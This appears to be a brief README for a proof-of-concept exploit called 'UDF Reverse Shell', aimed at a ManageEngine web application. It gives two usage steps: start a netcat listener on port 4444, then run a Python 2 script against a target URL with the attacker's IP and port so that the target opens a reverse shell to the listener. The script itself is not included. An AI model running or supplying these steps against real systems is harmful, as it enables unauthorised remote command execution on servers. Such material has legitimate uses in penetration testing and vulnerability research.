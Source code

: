 # UDF Reverse Shell

## How to use
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 pocX.py https://manageengine:8443 192.168.45.211 4444
```
